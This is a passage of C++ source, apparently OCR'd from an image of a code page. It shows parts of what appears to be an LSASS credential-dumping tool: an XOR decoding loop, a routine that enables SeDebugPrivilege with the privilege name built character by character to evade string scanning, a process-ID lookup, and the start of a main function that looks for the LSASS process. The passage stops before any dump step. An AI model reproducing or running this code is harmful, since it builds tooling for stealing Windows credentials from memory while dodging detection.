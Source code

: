 ```cpp
			j = 0;
		data[i] = data[i] ^ key[j];
		j++;
	}
}

// Enable SeDebugPrivilige if not enabled already
BOOL SetDebugPrivilege() {
	HANDLE hToken = NULL;
	TOKEN_PRIVILEGES TokenPrivileges = { 0 };

	if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY | TOKEN_ADJUST_PRIVILEGES, &hToken)) {
		printf("[-] Could not get current process token with TOKEN_ADJUST_PRIVILEGES\n");
		return FALSE;
	}

	TokenPrivileges.PrivilegeCount = 1;
	TokenPrivileges.Privileges[0].Attributes = TRUE ? SE_PRIVILEGE_ENABLED : 0;

	char sPriv[] = { 'S','e','D','e','b','u','g','P','r','i','v','i','l','e','g','e',0 };
	if (!LookupPrivilegeValueA(NULL, (LPCSTR)sPriv, &TokenPrivileges.Privileges[0].Luid)) {
		CloseHandle(hToken);
		printf("[-] No SeDebugPrivs. Make sure you are an admin\n");
		return FALSE;
	}

	if (!AdjustTokenPrivileges(hToken, FALSE, &TokenPrivileges, sizeof(TOKEN_PRIVILEGES), NULL, NULL)) {
		CloseHandle(hToken);
		printf("[-] Could not adjust to SeDebugPrivs\n");
		return FALSE;
	}

	CloseHandle(hToken);
	return TRUE;
}

// Find PID of a process by name
int FindPID(const char* procname)
{
	int pid = 0;
	PROCESSENTRY32 proc = {};
	proc.dwSize = sizeof(PROCESSENTRY32);

	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	bool bProc = Process32First(snapshot, &proc);

	while (bProc)
	{
		if (strcmp(procname, proc.szExeFile) == 0)
		{
			pid = proc.th32ProcessID;
			break;
		}
		bProc = Process32Next(snapshot, &proc);
	}
	return pid;
}

int main(int argc, char** argv) 
{
	// Find LSASS PID
```